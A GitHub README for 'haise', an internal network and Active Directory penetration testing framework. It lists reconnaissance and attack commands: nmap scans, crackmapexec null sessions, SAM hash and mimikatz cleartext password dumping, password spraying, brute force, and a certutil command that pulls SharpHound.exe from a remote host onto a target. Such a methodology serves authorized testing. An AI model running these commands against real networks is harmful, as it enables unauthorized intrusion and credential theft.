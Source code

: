 # haise
## Internal Network Pentest Framework
![](https://github.com/syedumerqadri/haise/blob/master/image.jpg)


## Internal Penetration Testing:

An Internal Penetration Test differs from a vulnerability assessment in that it actually exploits the vulnerabilities to determine what information is actually exposed. An Internal Penetration Test mimics the actions of an actual attacker exploiting weaknesses in network security without the usual dangers. This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability or integrity of the network

## Methodology:

        •  Internal Network Scanning
                  traceroute www.google.com
                  nmap 192.168.1.*
                  Reverse IP Lookup (https://mxtoolbox.com/ReverseLookup.aspx)
                  Ip Info: https://ipinfo.io/
        
        •  Port Scanning
                  nmap -p- -T4 -iL sub.txt (Fast Scan)
                  nmap -A 192.168.1.1 (Little Intense and slow)
                  nmap -sV -sC -Pn -p 1-65535 -T5 --min-rate 1000 --max-retries 5 192.168.1.1
                  nmap -sS -sC -sV -v -p 445 -iL subnet-files.txt
                  nmap -sS -sC -sV -v -p 21 -iL subnet-files.txt

                  Web Ports: 80, 8080, 443

                  
        •  Fingerprinting
                  nmap -sV --version-intensity 5 192.168.1.1
                  nc 192.168.1.1 80
                  curl -sI http://192.168.1.1

        •  Vulnerbility Scanning
                  nmap --script vuln 192.168.1.1 -d
                  nikto
                  dirsearch
                  nessus    (https://localhost:8834)
        
        •  IDS Penetration Testing
                  lbd 45.34.23.12
                  wafw00f http://192.168.1.1  
    
        •  SMB Enumeration
                Discover Host:
                cme smb <subnet>    (cme => crackmapexecs)

                Null Session:
                cme smb 192.168.24.0/24 -u '' -p ''
                smbmap –host-file smb-hosts.txt

                SMB Map:
                smbmap -H 192.168.1.1
                smbmap.py –host-file smb-hosts.txt u ‘jsmith’ -p ‘Spring!2020’ -q -R –depth 2 –exclude ADMIN$ IPC$ -A ‘passw’

        •  Exploit Research
                  https://www.exploit-db.com/
                  https://www.rapid7.com/db/
                  https://cxsecurity.com/search/       

        •  Manual Vulnerability Testing and Verification
        •  Password Strength Testing
                  rate limiting
                  sparta(tool)
                  burp (brute force)

        •  Infrastructure Mapping
                  Maltego

                  DNS Server
                  Firewall
                  Cloud
                  Employ Device
                  Logging Server
                  Directory Service
                  Admin Workstation
                                                               
        •  Administrator Privileges Escalation
        •  Database Security Controls Testing    
        •  Third-Party/Vendor Security Configuration Testing

## AD Pentesting:
“Active Directory” Called as “AD” is a directory service that Microsoft developed for the Windows domain network. 
Using it you can to control domain computers and services that are running on every node of your domain.

Active Directory (Pen Test ) is most commonly used in the Enterprise Infrastructure to manage 1000’s of computers in the organization with a single point of control as “Domain Controller”
Performing Penetration Testing of Active Directory is more interesting and are mainly targeted by many APT Groups with a lot of different techniques

    Check SMB Service in use:
    cat hosts.txt | xargs -I{} sh -c 'crackmapexec smb {}'
    
    Enumerate shares:
    crackmapexec 192.168.0.12 -u username -p 'password'  --shares

    Whos logged into the machine:
    crackmapexec 192.168.0.12 -u username -p 'password' --users

    Dump local sam hashes
    python crackmapexec 192.168.0.12 -u username -p 'password' --sam

    Dump clear text password:
    crackmapexec 192.168.0.12 -u username -p 'password' -m modules/credentials/mimikatz.py

    Downloading:
    cme smb 10.128.111.203 -u 'xampp' -p '@sdF1234' -d HQCMSDBQ -x "certutil.exe -urlcache -split -f http://172.17.17.214/SharpHound.exe pentest/zz.exe"

    Check account lockout policy:
    crackmapexec smb 192.168.1.101 -u syedali -p 'test'  --pass-pol

    Password spray:
    python crackmapexec.py 192.168.0.0/24 -u username -p 'password'
                
    Bruteforce:
    crackmapexec smb 192.168.1.102 -u username.txt -p gooo

    Connecting:
    smbclient -L 192.168.1.112 -U "Creative Green"

![](https://github.com/syedumerqadri/haise/blob/master/ss.png)

## Tool for Automation:
Internal network could possibly contain large amount of IPs,So for automation first i generate some
liner commands and then automate i them.

## Usage:
1. git clone https://github.com/syedumerqadri/haise
2. cd haise
3. put all provided IPs on hosts.txt
4. python haise.py

You will got the prompt shell

## Shell:
		[exit]
		[clear]
		[hosts]	list all hosts
		[alive]	check if hosts are alive
		[ports]	port scan of all hosts
		[dir]	Directory Enumuration
	        [headers]  Grab Web Headers
		[scan]	Grab Headers, Port Scan and Directory Enumuration for all hosts 
		[ids] Detect Intrusion Detection System
		[smb] Check for SMB Services







